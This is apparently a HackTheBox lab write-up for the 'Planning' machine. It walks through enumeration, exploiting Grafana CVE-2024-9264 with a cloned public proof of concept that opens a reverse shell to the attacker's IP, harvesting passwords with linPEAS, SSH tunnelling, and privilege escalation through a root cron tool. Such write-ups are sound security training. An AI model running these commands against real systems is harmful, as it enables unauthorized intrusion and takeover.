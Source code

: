 #  HackTheBox: Planning - Writeup

##  Enumeration

### Nmap Scan

We begin with an `nmap` scan, which reveals two open ports:  
- **22** (SSH)  
- **80** (nginx web server)

```bash
nmap -sCV -T4 10.10.11.68
```
### Directory Enumeration
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image002.png)

Upon enumeration of the directories on the web server, nothing of significance comes up.
```bash
gobuster dir -u http://planning.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --timeout 20s -x html,php
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image004.png)

### Subdomain Enumeration
So, ffuf is used to look for any subdomains the web page might have, and it comes up with Grafana.planning.htb.
```bash
ffuf -w ../../seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://planning.htb -H "Host:FUZZ.planning.htb" -fc 301 -t 100
```
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image005.png)
 
After discovering the subdomain grafana, it is appended to the hosts file, so we’re able to access it. 
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image007.png)

## Exploitation
Going into the webpage, we see it runs V11.0.0 which is vulnerable to RCE (CVE-2024-9264).
![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image009.png)

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image011.png)
 
We then use an exploit found on github by z3k0sec, which allows us to RCE into the system using reverse shell.

```bash
Git clone https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image013.png)

The script is then executed and a listener is set up.

Note: To run the script, you will have to install the requests module through pip (pip install requests), in a python virtual environment.
```bash
python3 poc.py --url http://grafana.planning.htb/ --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.x --reverse-port 1234
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image015.png)

## Post-Exploitation
  
Upon gaining access to the system, we are root but this user doesn’t contain either of the flags, so linPEAS is ran to look for any sensitive information.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image017.png)

### linPEAS Enumeration (root User)

Upon running linPEAS, the password for the user ‘enzo’ is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image019.png)

Able to SSH into enzo, the user flag is obtained.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image021.png)

### linPEAS Enumeration (enzo User)

linPEAS is ran again, this time in enzo’s user to look for any sensitive files. After which we see some database files.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image023.png)

Exploring the crontab.db, we find a password for the root user. Looking for active connections, we see a webserver being hosted at port 8000.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image025.png)

### SSH Tunneling

Using SSH tunnelling we host it in our own machine, at port 8001. It requires a username and password, available from the crontab.db database.
```bash
ssh -L 8001:localhost:8000 enzo@10.10.11.68
```

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image027.png)

## Privelege Escalation

The website functions as a cronjobs simulator, executing tasks at a certain time as root. From here we can privilege escalate the enzo’s user as sudo, gaining root privileges.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image029.png)

After obtaining privileges we are able to obtain the root flag.

![Image Alt](https://github.com/mfahdk/Writeups/blob/main/HackTheBox/Planning/Screenshots/image031.png)
